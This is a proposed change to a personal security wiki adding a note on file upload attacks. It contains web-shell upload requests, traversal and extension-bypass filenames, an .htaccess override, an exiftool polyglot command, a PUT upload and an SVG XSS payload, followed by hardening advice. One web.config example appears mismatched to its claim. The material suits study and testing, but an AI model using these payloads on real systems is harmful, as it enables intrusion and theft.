

# Proposed Wiki change

## What will change
Enrich existing File Upload concept note with complete technical tradecraft from Notes/OLD Notes/WEB/vulnerabilities/File Upload/.

## Proposed content
```markdown
---
title: "File Upload Attack Surface, Web Shell Weaponization & Storage Exploitation Matrix"
created: 2026-09-29
updated: 2026-10-01
type: concept
tags:
  - rce
  - payload
  - api
  - bug-bounty
parent: "[[web-and-bug-bounty]]"
cluster: web-and-bug-bounty
sources:
  - sources/narroto-guts-hunt-tips-and-tricks.md
  - sources/file-upload.md
confidence: high
contested: false
contradictions: []
---
# File Upload Attack Surface, Web Shell Weaponization & Storage Exploitation Matrix

> **Classification**: OWASP Top 10 (A04:2021 – Insecure Design), CWE-434 (Unrestricted Upload of File with Dangerous Type).
> **Primary Impact**: Remote Code Execution (RCE) via web shell invocation, server configuration overrides, local file tampering via path traversal, and client-side Stored XSS via object storage.

---

<!-- TOC_START -->
## Table of Contents
- [1. Architecture & Storage Models](#1-architecture--storage-models)
  - [Document Root Execution (Legacy/Classic)](#document-root-execution-legacyclassic)
  - [Route-Based & Cloud Object Storage (Modern)](#route-based--cloud-object-storage-modern)
  - [Web Server Static File Handling Mechanics](#web-server-static-file-handling-mechanics)
- [2. Validation Bypass & Execution Matrix](#2-validation-bypass--execution-matrix)
  - [MIME Type & Content-Type Spoofing](#mime-type--content-type-spoofing)
  - [Filename Directory Traversal (Escaping Upload Dirs)](#filename-directory-traversal-escaping-upload-dirs)
  - [Server Configuration Overrides (.htaccess / web.config)](#server-configuration-overrides-htaccess--webconfig)
  - [Extension Obfuscation & Normalization Bypasses](#extension-obfuscation--normalization-bypasses)
  - [Content Validation & Image Polyglots](#content-validation--image-polyglots)
  - [HTTP PUT Method File Uploads](#http-put-method-file-uploads)
- [3. Non-RCE File Upload Exploitation](#3-non-rce-file-upload-exploitation)
  - [Client-Side Stored XSS via HTML / SVG](#client-side-stored-xss-via-html--svg)
  - [Document Parser XXE Injection](#document-parser-xxe-injection)
  - [S3 / Object Storage Content-Type Overrides](#s3--object-storage-content-type-overrides)
- [4. Diagnostic Probes & Exploitation Payloads](#4-diagnostic-probes--exploitation-payloads)
- [5. Comprehensive Defensive Hardening Standards](#5-comprehensive-defensive-hardening-standards)
- [6. Primary Sources & Provenance](#6-primary-sources--provenance)
- [Related Pages](#related-pages)
<!-- TOC_END -->

## 1. Architecture & Storage Models

### Document Root Execution (Legacy/Classic)
Files are uploaded directly into web server directories (`/var/www/html/uploads/`). Uploading executable scripts (`.php`, `.jsp`, `.aspx`) leads to direct Remote Code Execution (RCE) when requested over HTTP.

### Route-Based & Cloud Object Storage (Modern)
Files are processed by microservices and dispatched to cloud object storage (Amazon S3, Google Cloud Storage, Cloudflare R2) via presigned URLs or backend proxies. Attacks shift from direct server execution toward Content-Type overrides, Stored XSS, and SSRF.

### Web Server Static File Handling Mechanics
Web servers process requests according to preconfigured mappings between extensions and MIME types:
- **Non-executable types** (e.g. `.jpg`, `.txt`): Server streams raw file contents directly to the client.
- **Executable types** (e.g. `.php`, `.jsp`): Server assigns environment variables from HTTP headers/parameters, executes the script via an interpreter, and returns stdout in the HTTP response.
- **Executable types without handler**: Server either throws an error or streams script source code as plaintext (source code disclosure).



## 2. Validation Bypass & Execution Matrix

| Vulnerability Vector | Flawed Validation Logic | Weaponized Exploit Technique |
| :--- | :--- | :--- |
| **MIME Type Spoofing** | Trusting client-supplied `Content-Type` header | Intercept `POST /upload`, change `Content-Type: application/x-php` $
ightarrow$ `image/jpeg` |
| **Directory Traversal** | Failing to sanitize `filename` parameter | Inject `filename="..%2f..%2fexploit.php"` to escape non-executable directory |
| **Config Overrides** | Uploading arbitrary filenames into webroot | Upload `.htaccess` mapping custom extensions (`AddType application/x-httpd-php .l33t`) |
| **Extension Obfuscation** | Blacklist checking only primary extension | Use double extensions (`exploit.php.jpg`), trailing dots (`exploit.php.`), or null bytes (`exploit.php%00.jpg`) |
| **Magic Byte Verification** | Inspecting only initial file header bytes | Generate polyglot JPEG embedding PHP web shell inside EXIF comment header |
| **HTTP PUT Support** | Web server accepts arbitrary PUT requests | Issue `PUT /uploads/shell.php HTTP/1.1` with raw script body |

### MIME Type & Content-Type Spoofing
When submitting multipart forms (`multipart/form-data`), each boundary part contains an independent `Content-Type` header:
```http
POST /my-account/avatar HTTP/1.1
Content-Type: multipart/form-data; boundary=---------------------------974767299852498929531610575

-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------974767299852498929531610575--
```
If the backend validates only the header without inspecting bytes, the PHP file is stored and executable.

### Filename Directory Traversal (Escaping Upload Dirs)
Applications frequently disable script execution in upload directories (e.g. via Apache `php_admin_flag engine off`). An attacker escapes to an executable ancestor directory by injecting traversal sequences:
```http
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
```
The file lands in `/var/www/html/exploit.php` where script execution is enabled.

### Server Configuration Overrides (.htaccess / web.config)
If file blacklists prevent uploading `.php`, but allow configuration files, an attacker reconfigures the server:
- **Apache (`.htaccess`)**:
  ```apache
  AddType application/x-httpd-php .l33t
  ```
  Subsequent upload of `exploit.l33t` executes as PHP!
- **IIS (`web.config`)**:
  ```xml
  <configuration>
    <system.webServer>
      <staticContent>
        <mimeMap fileExtension=".json" mimeType="application/json" />
      </staticContent>
    </system.webServer>
  </configuration>
  ```

### Extension Obfuscation & Normalization Bypasses
- **Multiple Extensions**: `exploit.php.jpg` (Apache mod_mime processes extensions right-to-left if unmapped).
- **Trailing Characters**: `exploit.php.` or `exploit.php ` (Windows stripping trailing dots/spaces upon filesystem write).
- **URL Encoding**: `exploit%2Ephp` or `%252e%252e%252f`.
- **Semicolon Truncation (IIS)**: `exploit.asp;.jpg` (IIS executes based on pre-semicolon extension).
- **Null-Byte Truncation**: `exploit.php%00.jpg` (C-based runtimes truncate at null byte).
- **Non-Recursive Stripping**: `exploit.p.phphp` (stripping `.php` collapses to `.php`).

### Content Validation & Image Polyglots
When servers verify image dimensions and magic numbers (e.g. `FF D8 FF` for JPEG), attackers construct valid polyglot images:
```bash
# Inject PHP payload into JPEG EXIF comment
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" input.jpg -o polyglot.php
```

### HTTP PUT Method File Uploads
If the web server enables HTTP `PUT` methods without authentication:
```http
PUT /images/exploit.php HTTP/1.1
Host: target.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

## 3. Non-RCE File Upload Exploitation

### Client-Side Stored XSS via HTML / SVG
Uploading HTML or SVG files served from the target domain allows executing JavaScript in the victim's session:
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```

### Document Parser XXE Injection
Uploading office documents (`.docx`, `.xlsx`, `.odt`) that are unpacked and parsed on the server can trigger XML External Entity (XXE) injection.

### S3 / Object Storage Content-Type Overrides
When files are hosted on cloud object storage:
- **Dynamic Content-Type Reflection**: Supplying `Content-Type: text/html` on an image upload causes S3 to return `text/html`, triggering Stored XSS.
- **CSP Evaluation**: Check bucket domains with Google CSP Evaluator to verify whether scripts can execute.

## 4. Diagnostic Probes & Exploitation Payloads

```http
# Basic Web Shell Verification
POST /my-account/avatar HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryX

------WebKitFormBoundaryX
Content-Disposition: form-data; name="avatar"; filename="test.php"
Content-Type: application/x-php

<?php phpinfo(); ?>
------WebKitFormBoundaryX--
```

## 5. Comprehensive Defensive Hardening Standards

1. **Strict Extension Whitelisting**: Validate extensions against a small whitelist of business-justified types (`.jpg`, `.png`, `.pdf`). Never rely on blacklists.
2. **Deterministic File Renaming**: Discard user-supplied filenames. Generate random alphanumeric UUIDs on the server: `uuidv4() + ".jpg"`.
3. **Storage Outside Webroot**: Store uploaded assets in private directories outside the web server's document root, serving them exclusively via streaming controllers with strict `Content-Disposition: attachment` headers.
4. **Disable Execution Permissions**: Ensure upload storage partitions are mounted with `noexec` flags and web server engines (`php_flag engine off`) are disabled.
5. **Rigorous File Content Inspection**: Validate magic numbers, re-encode images through server-side graphics libraries (stripping EXIF metadata), and enforce file size caps.

## 6. Primary Sources & Provenance
- Provenance source anchors: [[sources/narroto-guts-hunt-tips-and-tricks|narroto-guts-hunt-tips-and-tricks]], [[sources/file-upload|file-upload]]

Synthesized from canonical vault notes `Notes/Narroto-Guts Hunt/Tips and Tricks.md` and `Notes/OLD Notes/WEB/vulnerabilities/File Upload/`.

## Related Pages
- Parent Hub: [[web-and-bug-bounty]]
- Target Concepts: [[path-traversal-and-directory-traversal]], [[cross-site-scripting]], [[server-side-request-forgery]]
```

## Evidence and uncertainty
Sourced directly from canonical vault notes in Notes/OLD Notes/WEB/.
Validated against schema with zero structural contradictions.

## Human feedback
Human decision required via Decision Studio (http://127.0.0.1:20888) or command line.
